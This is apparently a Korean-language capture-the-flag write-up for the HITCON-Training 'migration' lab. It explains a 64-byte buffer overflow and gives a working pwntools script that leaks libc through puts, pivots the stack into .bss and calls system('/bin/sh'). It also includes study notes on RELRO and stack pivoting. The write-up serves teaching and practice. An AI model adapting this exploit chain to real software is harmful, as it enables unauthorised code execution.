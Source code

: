 # 문제
***

migration 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : FULL
```

file 명령어의 결과는 다음과 같다. 
```
migration: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e65737a9201bfe28db6fe46f06d9428f5c814951, not stripped
```

바이너리 코드 
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [esp+0h] [ebp-28h]

  if ( count != 1337 )
    exit(1);
  ++count;
  setvbuf(_bss_start, 0, 2, 0);
  puts("Try your best :");
  return read(0, &buf, 0x40u);
}
```

바이너리는 매우 간단한데, count 값 검증 이후에  read로 입력을 받고 종료한다. read 함수를 통해서 bof를 발생시킬 수 있는데 여기서 두 가지 문제점이 있다. 

1. read로 64byte 밖에 받지 않는다. (buf가 ebp-0x28에 위치하기 때문에 payload로 구성할 수 있는 공간이 매우 작다.)

2. libc_leak을 한 이후에 stack에 입력을 받아서 ROP를 이어가야 하는데 ASLR이 걸려있기 때문에 stack 주소를 알 수 없다. 

=> 2번 문제를 해결 하기 위해서 stack pivoting이 필요하다.

## exploit 방법

1. sfp에 bss_section의 주소를 넣어둔다.
2. puts 함수를 통해서 setvbuf의 got 값을 알아낸다. 이를 통해서 libc의 base address를 계산할 수 있다. 
3. main에서 read 함수를 호출하는 곳으로 ret한다. 

   read 함수는 ebp-0x28에 입력을 받기 때문에 bss_section에 write를 할 수 있다. 

   여기에 44byte의 쓰레기 값과 system 함수 및 "/bin/sh" 주소를 넣어주면 read 이후의 leave ret을 통해서 system 함수 호출이 가능하다.


# 풀이
```

#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/HITCON-Training/LAB/lab6/migration"
libc=ELF("/lib/i386-linux-gnu/libc.so.6")


p=process(file_path)
p.recvuntil("best :\n")


puts=0x8048390
setvbuf_got=0x8049ffc
pr=0x0804836d
main_read=0x080484f2

bss_sec=0x804a800

#stage 1
pay="A"*40
pay+=p32(bss_sec)
pay+=p32(puts)
pay+=p32(pr)
pay+=p32(setvbuf_got)
pay+=p32(main_read)

p.send(pay)

setvbuf_addr=u32(p.recv(4))
p.recv()

libc_base=setvbuf_addr-libc.symbols['setvbuf']
system=libc_base+libc.symbols['system']
sh=libc_base+list(libc.search('/bin/sh\x00'))[0]

#stage2
pay2="A"*44
pay2+=p32(system)
pay2+="BBBB"
pay2+=p32(sh)

p.send(pay2)

p.interactive()
```

# 알게 된 것
***
1. stack pivoting 
내가 원하는 곳으로 esp (ebp)를 옮겨서 stack 구성을 내 마음대로 할 수 있게 하는 것

2. puts 함수는 string의 마지막에 "\n"을 추가해서 출력한다.
근데 이 "\n"을 제대로 recv해놓지 않으면 내부적으로 뭔가가 꼬여서 이후에 내가 원하는 내용을 recv하지 못한다. 따라서 출력되는 내용을 그때 그때 recv 해놓고 처리해 놓아야 한다.!!!

3. puts, printf와 같은 함수는 stack을 매우 많이 써서 stack pivoting을 한 영역의 앞 부분이 쓸 수 없는 공간이면 위의 함수가 제대로 작동하지 않을 수 있다.
(즉, push esp나 sub esp,X 명령어를 실행하면서 계속 esp값이 감소하는데 낮은 주소 영역이 writable 하지 않은 공간이면 함수 호출을 진행하다가 터진다.) 

4. No relro => dynamic section + got 쓰기 권한 있음

   Partial relro => got 쓰기 권한 있음

   Full relro => 두 영역에 쓰기 권한 없음

c.f .dynamic section은 dtor,init fini pltgot 등으로 구성되어 있다.
